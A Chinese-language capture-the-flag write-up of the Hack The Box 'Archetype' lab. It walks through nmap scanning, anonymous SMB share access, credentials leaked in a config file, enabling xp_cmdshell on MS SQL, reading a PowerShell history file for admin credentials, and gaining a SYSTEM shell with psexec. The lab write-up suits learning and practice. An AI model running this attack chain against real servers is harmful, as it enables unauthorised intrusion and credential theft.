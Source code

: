 ## Archetype
这是 hack the box 的第一个环境，在 starting-point 里面，刚接触的时候着实一脸懵逼，无从下手，虽然一直到现在也是这样，包括其他的环境，基本上都是对着 wp 抄一波，尝试去理解这个思维，然后再慢慢变成自己的东西。

### 正文
上来先 nmap 看看环境的端口
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-12 14:15 CST
Nmap scan report for 10.10.10.27
Host is up (0.39s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-06-12T03:38:10
|_Not valid after:  2050-06-12T03:38:10
|_ssl-date: 2020-06-12T06:30:26+00:00; +14m27s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/12%OT=135%CT=1%CU=40752%PV=Y%DS=2%DC=T%G=Y%TM=5EE31D
OS:9F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NN
OS:S%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h38m28s, deviation: 3h07m52s, median: 14m26s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-11T23:30:13-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-12T06:30:12
|_  start_date: N/A

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   398.86 ms 10.10.14.1
2   390.79 ms 10.10.10.27

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.18 seconds
```
可以看到开启了 139/445 端口，这些端口都是用于提供 smb 服务的，这里查了一下为什么一个服务用几个端口

> SMB（Server Message Block）协议在 NT/2000 中用来作文件共享，在 Win-NT 中，SMB 运行于 NBT（NetBIOS over TCP/IP）上，使用137，139（UDP），139（TCP）端口。 在 win2000 级以上版本中，SMB 可以直接运行在 tcp/ip 上，而没有额外的NBT层，使用 TCP 445 端口。

（135、137、138、139 和 445 都是 smb）

smb 服务提供匿名访问，可以通过 smbclient 检测服务是否开启

```
docupa@kali:~$ smbclient -N -L 10.10.10.27

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```
发现一个叫 backups 的路径，尝试继续匿名访问
```
docupa@kali:~$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \>
```
成功进入交互，找找里面有没有有用的东西

在第一层的路径里面有一个叫 prod.dtsConfig 的文件，获取文件查看内容得到一段配置
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
在里面可以看到有一个账号密码，尝试了这个身份去登录 smb，发现并不能找到什么，便开始往 Sql 尝试

用 Impacket 工具包下的 mssqlclient.py 进行 sql 连接
```
docupa@kali:~$ sudo mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
进入交互，因为是 windows 平台的，所以要加上 -windows-auth，进入交互后，查询登录账号是否是数据库最高管理员，如果是的话即可 rce

```
SQL> select IS_SRVROLEMEMBER('sysadmin')
              

-----------   

          1 
```
可以 rce
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```
上面这段操作的命令并不明白，但是着实懒得去查（

可以 rec 后通过 powershell 弹一个 shell 出来，然后各种找路径，在 powershell 的历史文件，可以看到里面泄露了最重要的东西

在官方 wp 中，是通过 powershell 弹 shell 然后再找，这边直接选择在 sql 里面 rce 找

```
SQL> xp_cmdshell "type C:\\Users\\sql_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt"
output                                                                             

--------------------------------------------------------------------------------   

net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!            

exit                                                                               

NULL
```
可以看到有 admin 的账号密码，账号可以访问 smb 中的 admin$ 共享路径

直接通过 psexec.py 用账号密码连接
```
docupa@kali:~$ sudo psexec.py administrator@10.10.10.27
[sudo] docupa 的密码：
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file PzNWJNhg.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service euSq on 10.10.10.27.....
[*] Starting service euSq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
获得 shell

具体逻辑图
![](./逻辑.png)